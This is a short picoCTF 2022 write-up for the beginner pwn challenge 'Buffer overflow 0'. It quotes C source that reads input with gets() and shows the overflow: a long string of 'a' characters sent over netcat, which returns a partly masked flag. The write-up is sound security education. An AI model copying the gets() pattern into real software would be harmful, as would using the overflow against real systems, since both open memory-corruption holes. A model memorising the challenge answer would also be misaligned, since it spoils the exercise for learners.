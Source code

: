 ```yaml
---
title: "pico22/pwn: Buffer overflow 0"
date: 2022-04-05 12:16:08
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [Buffer overflow 0]."
permalink: ctfs/pico22/pwn/buffer-overflow-0/
---
```

## 📜 Description

Smash the stack \
Let's start off simple, can you overflow the correct buffer? The program is available  [here](https://artifacts.picoctf.net/c/523/vuln). You can view source  [here](https://artifacts.picoctf.net/c/523/vuln.c). And connect with it using:`nc saturn.picoctf.net 64712`

---

## 🔍 Detailed Solution

Let's analyze this `.c` file we have as reference.

```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
```

We see that the `gets()` function is called. This function is really, really bad (in addition to being deprecated) as it will write the user's input to the stack without regard to its length, meaning a user's input can exceed its allocated space. We should be able to trigger the flag print by simply inputting a string that is longer than the specified length of 16 in the `vuln` function:

```text
# nc saturn.picoctf.net 64712
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
